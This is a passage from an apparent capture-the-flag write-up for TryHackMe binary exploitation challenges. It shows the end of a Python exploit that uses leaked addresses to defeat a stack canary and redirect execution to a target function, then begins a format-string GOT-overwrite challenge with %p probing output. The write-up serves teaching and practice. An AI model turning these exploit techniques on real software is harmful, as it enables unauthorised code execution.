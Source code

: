 ```python
rt_e0_address = int(leaks_search.group(1), 16)
canary = int(leaks_search.group(2), 16)
print(f"Canary is: 0x{canary:08x}")
print(f"Entry point runtime address is: {hex(rt_e0_address)}")

# Calculate the runtime address of get_streak() using the leaked runtime
# address of entry0()
rt_hf_address = rt_e0_address - ef_offset + hf_offset
print(f"Runtime get_streak() address is: {hex(rt_hf_address)}")

# Overflow the second buffer, reinjecting the canary to fool the canary check
payload = b"A" * 24 + p64(canary) + b"B" * 8 + p64(rt_hf_address)

process.clean()
process.sendline(payload)

process.interactive()
```

## PWN108 - Format string to overwrite GOT (non-PIE binary)

### Binary behaviour

```shell
root@c18329d2a566:~# ./pwn108.pwn108
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 108

      THM University 📚
👨‍🎓 Student login portal 👩‍🎓

=[Your name]: %p%p%p%p
=[Your Reg No]: %p%p%p

=[ STUDENT PROFILE ]=
Name         : %p%p%p%p
Register no  : 0x7ffe10ad6290(nil)(nil)
Institue     : THM
Branch       : B.E (Binary Exploitation)


                    =[ EXAM SCHEDULE ]=
 --------------------------------------------------------
|  Date     |           Exam               |    FN/AN    |
|--------------------------------------------------------
| 1/2/2022  |  PROGRAMMING IN ASSEMBLY     |     FN      |
|--------------------------------------------------------
| 3/2/2022  |  DATA STRUCTURES             |     FN      |
|--------------------------------------------------------
| 3/2/2022  |  RETURN ORIENTED PROGRAMMING |     AN      |
|--------------------------------------------------------
| 7/2/2022  |  SCRIPTING WITH PYTHON       |     FN      |
 --------------------------------------------------------
root@c18329d2a566:~#
```
